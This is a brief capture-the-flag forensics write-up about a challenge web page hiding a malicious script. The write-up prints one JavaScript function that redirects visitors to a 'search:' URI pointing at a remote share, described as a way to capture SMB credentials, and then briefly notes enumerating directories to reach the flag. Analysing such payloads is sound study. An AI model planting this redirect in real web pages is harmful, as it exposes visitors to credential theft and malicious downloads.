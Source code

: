 ![](assets/posts/cyberApocalypse/assets/forensics/hire1.png)

inspecting the page, we found a malicious script.

![](assets/posts/cyberApocalypse/assets/forensics/hire2.png)

The exploit appears to involve **capturing SMB credentials** via a malicious JavaScript payload. The key part of the attack is in this function:

``` javascript
function getResume() {
      window.location.href=`search:displayname=Downloads&subquery=\\\\${window.location.hostname}@${window.location.port}\\3fe1690d955e8fd2a0b282501570e1f4\\resumes\\`;
    }
```
visiting the directory, we can find some other directories. Enumerating each directories until we got the flag.

![](assets/posts/cyberApocalypse/assets/forensics/hire3.png)
![](assets/posts/cyberApocalypse/assets/forensics/hire4.png)

